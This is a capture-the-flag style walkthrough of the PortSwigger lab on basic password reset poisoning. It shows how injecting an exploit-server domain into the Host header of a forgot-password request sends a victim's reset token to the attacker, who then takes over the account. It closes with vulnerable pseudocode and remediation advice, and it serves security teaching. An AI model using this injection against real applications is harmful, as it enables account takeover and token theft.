# HTTP Host Header Attacks

**Lab: Basic password reset poisoning (Web Security Academy)**

**Level: Apprentice**

**Link:** https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning/lab-host-header-basic-password-reset-poisoning

---

## Vulnerability Overview

Password reset poisoning is an attack that abuses the `Host` header to redirect a victim's password reset link to an attacker-controlled server. When the application constructs a password reset URL, it uses the `Host` header from the incoming request as the domain in the link. An attacker who can trigger a reset for the victim's account, while injecting their own domain into the `Host` header, causes the victim to receive an email whose link points to the attacker's site. When the victim clicks it, the reset token is delivered to the attacker.

The root cause is **trusting the client-supplied `Host` header** to build URLs that are then sent to users.

**Lab goal:** Log in to Carlos's account. You have credentials for your own account, `wiener:peter`, and access to an exploit server that logs incoming requests.

---

## Steps to Solve the Lab

### 1. Explore the lab

Open the lab. It is a blog with a login page that offers a **Forgot password?** link, plus an exploit server (reachable via **Go to exploit server**).





### 2. Trigger a password reset for your own account

On the login page, click **Forgot password?**, enter your username `wiener`, and submit. The application confirms that a reset email has been sent.





Open the exploit server's **Email client** and note that the baseline reset link is built from the genuine lab domain - this is the value that comes from the `Host` header.



### 3. Confirm that the `Host` header is reflected in the reset link

With Burp intercepting traffic, capture the `POST /forgot-password` request and send it to **Burp Repeater**.



In Repeater, change the `Host` header to an arbitrary value such as `test` and resend the request.



Open the exploit server's **Email client** (or the lab's email client). The most recent reset email now contains a link built from your injected host:

```
https://test/forgot-password?temp-forgot-password-token=<token>
```

This confirms that the value of the `Host` header is copied directly into the reset URL.



### 4. Poison the reset for carlos

In the same `POST /forgot-password` request:

- Change the `Host` header to your exploit server's domain:
  `Host: <exploit-id>.exploit-server.net`
- Change the body parameter `username=wiener` to `username=carlos`.

Send the request.



The application sends a password reset email to Carlos's real address, but the link in that email now points to your exploit server:

```
https://<exploit-id>.exploit-server.net/forgot-password?temp-forgot-password-token=<carlos-token>
```

> **Note:** The exploit server's **Craft a response** page does not need any special configuration for this lab; you only need its **Access log**. The default page is fine.
>
> 

### 5. Capture Carlos's token

Carlos is simulated by the lab and clicks the link shortly after the email is sent. His browser makes a request to your exploit server. Open the exploit server's **Access log** and find the request:

```
GET /forgot-password?temp-forgot-password-token=<carlos-token>
```

The request originates from the victim's IP address (distinct from your own) and a `Victim` user agent. Copy the token value.



### 6. Reset Carlos's password

Visit the lab's genuine reset URL, substituting Carlos's stolen token:

```
https://<lab-id>.web-security-academy.net/forgot-password?temp-forgot-password-token=<carlos-token>
```

Set a new password.



### 7. Log in as carlos

Return to the login page and log in as `carlos` with the new password.



### 8. Result

The lab banner changes to **"Congratulations, you solved the lab!"**.



---

## Why This Works

The server constructs the reset link by reading the `Host` header directly:

```python
# Vulnerable pseudocode:
def forgot_password(request):
    user = db.get_user(request.form["username"])
    token = generate_token()
    reset_url = f"https://{request.headers['Host']}/forgot-password?temp-forgot-password-token={token}"
    send_email(user.email, reset_url)
```

The `Host` header is supplied by the client and is not validated against a list of legitimate domains, so any value the attacker provides ends up in the victim's email.

---

## Remediation

- **Never build password reset URLs from the `Host` header.** Use a hardcoded, configuration-driven base URL instead:
  ```python
  BASE_URL = os.environ["APP_BASE_URL"]  # e.g. "https://app.example.com"
  reset_url = f"{BASE_URL}/forgot-password?temp-forgot-password-token={token}"
  ```
- **Validate the `Host` header against an allowlist.** If dynamic host values are genuinely required (for example, multi-tenant apps), maintain a list of valid domains and reject anything not on it.
- **Derive security-sensitive URLs from server-side configuration.** Password reset links, email confirmation links, and similar URLs must come from trusted configuration, not from client-supplied headers.
- **Bind reset tokens to the account and expire them quickly.** This is defence in depth: it does not prevent poisoning, but it narrows the window in which a leaked token is useful.
